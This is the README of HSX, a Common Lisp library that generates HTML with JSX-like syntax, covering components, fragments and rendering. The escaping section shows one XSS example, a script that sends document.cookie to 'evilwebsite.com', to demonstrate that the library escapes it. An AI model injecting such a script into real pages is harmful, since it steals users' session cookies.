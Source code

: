 # HSX – Hypertext S-expression

**HSX** is a lightweight and expressive HTML generation library for Common Lisp, inspired by JSX. It allows you to write HTML using native Lisp syntax.

> 🚧 **ALPHA NOTICE:**  
> This library is still in early development. APIs may change.  
> See [release notes](https://github.com/skyizwhite/hsx/releases) for details.

## ⚙️ How HSX Works

Every tag or component inside an `(hsx ...)` form is transformed into a Lisp expression of the form:

```lisp
(create-element type props children)
```

For example:

```lisp
(hsx
  (article :class "container"
    (h1 "Title")
    (p "Paragraph")
    (~share-button :service :x))
```
Is internally transformed (by macro expansion) into:

```lisp
(create-element :article
                (list :class "container")
                (list (create-element :h1
                                      (list)
                                      (list "Title"))
                      (create-element :p
                                      (list)
                                      (list "Paragraph"))
                      (create-element #'~share-button
                                      (list :service :x)
                                      (list))))
```

This is made possible via the hsx macro, which detects HTML tags and components, then rewrites them using create-element. Tags are converted to keywords (e.g., div → :div), and custom components (starting with ~) are passed as functions.

## 🚀 Quick Example

```lisp
(hsx
  (div :id "main" :class "container"
    (h1 "Hello, HSX!")
    (p "This is a simple paragraph.")))
```

Generates:

```html
<div id="main" class="container">
  <h1>Hello, HSX!</h1>
  <p>This is a simple paragraph.</p>
</div>
```

## 📝 Rendering

Use `render-to-string` to convert an HSX structure to a string of HTML:

```lisp
(render-to-string
  (hsx ...))
``` 

## 🔐 Escaping text

All elements automatically escape special characters in content to prevent XSS and HTML injection:

```lisp
(hsx
  (div "<script>fetch('evilwebsite.com', { method: 'POST', body: document.cookie })</script>"))
```
Outputs:

```html
<div>&lt;script&gt;fetch(&#x27;evilwebsite.com&#x27;, { method: &#x27;POST&#x27;, body: document.cookie })&lt;&#x2F;script&gt;</div>
```

Use the special tag `raw!` to inject trusted, unescaped HTML:

```lisp
(hsx
  (article (raw! "HTML text here ..."))
```

## 🧩 Fragments

Use `<>` tag to group multiple sibling elements without wrapping them in a container tag:

```lisp
(hsx
  (<>
    (p "One")
    (p "Two")))
```

Outputs:

```html
<p>One</p>
<p>Two</p>
```

Note: `raw!` tag is a fragment that disables HTML escaping for its children.

## 🧱 Components

Define reusable components using `defcomp` macro. Component names must start with `~`.

*Keyword-style*

```lisp
(defcomp ~card (&key title children)
  (hsx
    (div :class "card"
      (h2 title)
      children)))
```

*Property-list style*

```lisp
(defcomp ~card (&rest props)
  (hsx
    (div :class "card"
      (h2 (getf props :title))
      (getf props :children))))
```

### Usage

```lisp
(hsx
  (~card :title "Hello"
    (p "This is a card.")))
```

Outputs:

```html
<div class="card">
  <h2>Hello</h2>
  <p>This is a card.</p>
</div>
```

## 🧬 Logic and Interpolation

You can freely embed Lisp expressions, conditionals, and loops inside HSX forms:

```lisp
(hsx
  (div
    (if (> (random 10) 5)
        (hsx (p "High!"))
        (hsx (p "Low!")))))
```

Or loop:

```lisp
(hsx
  (ul
    (loop :for item :in todo-list :collect
      (hsx (li item))))))
```

## 📄 License

MIT License

© 2024 Akira Tempaku

© 2018 Bo Yao (original [flute](https://github.com/ailisp/flute) project)
 
